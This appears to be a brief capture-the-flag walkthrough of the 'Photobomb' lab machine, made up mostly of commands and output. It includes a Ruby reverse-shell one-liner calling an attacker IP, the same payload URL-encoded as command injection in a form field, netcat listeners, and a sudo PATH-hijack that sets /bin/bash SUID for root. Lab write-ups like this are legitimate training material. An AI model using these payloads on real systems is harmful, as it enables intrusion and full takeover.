### Tools:

### Vulnerabilities: 

Nmap gives shows a webpage and ssh is open.

```console
└─$ nmap -A -p- -T4 -Pn 10.129.44.124
Starting Nmap 7.93 ( https://nmap.org ) at 2022-10-13 10:04 CDT
Nmap scan report for 10.129.44.124
Host is up (0.031s latency).
Not shown: 65533 closed tcp ports (conn-refused)
PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 8.2p1 Ubuntu 4ubuntu0.5 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   3072 e22473bbfbdf5cb520b66876748ab58d (RSA)
|   256 04e3ac6e184e1b7effac4fe39dd21bae (ECDSA)
|_  256 20e05d8cba71f08c3a1819f24011d29e (ED25519)
80/tcp open  http    nginx 1.18.0 (Ubuntu)
|_http-title: Did not follow redirect to http://photobomb.htb/
|_http-server-header: nginx/1.18.0 (Ubuntu)
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 18.92 seconds
```




http://pH0t0:b0Mb!@photobomb.htb/printer



ruby -rsocket -e'spawn("sh",[:in,:out,:err]=>TCPSocket.new("10.10.16.11",1234))'

enocode


photo=eleanor-brooke-w-TLY0Ym4rM-unsplash.jpg&filetype=jpg;%72%75%62%79%20%2d%72%73%6f%63%6b%65%74%20%2d%65%27%73%70%61%77%6e%28%22%73%68%22%2c%5b%3a%69%6e%2c%3a%6f%75%74%2c%3a%65%72%72%5d%3d%3e%54%43%50%53%6f%63%6b%65%74%2e%6e%65%77%28%22%31%30%2e%31%30%2e%31%36%2e%31%31%22%2c%31%32%33%34%29%29%27&dimensions=30x20

```console
└─$ nc -lvnp 1234                    
listening on [any] 1234 ...
connect to [10.10.16.11] from (UNKNOWN) [10.129.44.124] 49918
id
uid=1000(wizard) gid=1000(wizard) groups=1000(wizard)
```

```console
wizard@photobomb:/tmp$ sudo -l
sudo -l
Matching Defaults entries for wizard on photobomb:
    env_reset, mail_badpass,
    secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin

User wizard may run the following commands on photobomb:
    (root) SETENV: NOPASSWD: /opt/cleanup.sh
```

wizard@photobomb:/tmp$ sudo PATH=/tmp\:/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin /opt/cleanup.sh

```console
└─$ nc -lvnp 1235
listening on [any] 1235 ...
connect to [10.10.16.11] from (UNKNOWN) [10.129.44.124] 51630
id
uid=0(root) gid=0(root) groups=0(root)

bash-5.0# cat /dev/shm/chown
cat /dev/shm/chown
#!/bin/bash
chmod u+s /bin/bash
```

```console
wizard@photobomb:/tmp$ sudo PATH=/dev/shm\:/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin /opt/cleanup.sh
<n\:/usr/bin\:/sbin\:/bin\:/snap/bin /opt/cleanup.sh
wizard@photobomb:/tmp$ ls -la /bin/bash
ls -la /bin/bash
-rwsr-xr-x 1 root root 1183448 Apr 18 09:14 /bin/bash
wizard@photobomb:/tmp$ bash -p
bash -p
bash-5.0# id
id
uid=1000(wizard) gid=1000(wizard) euid=0(root) groups=1000(wizard)
bash-5.0# 
```

```console
bash-5.0# cat /home/wizard/user.txt
cat /home/wizard/user.txt
bc45****************************
bash-5.0# cat /root/root.txt
cat /root/root.txt
5ab2****************************
```
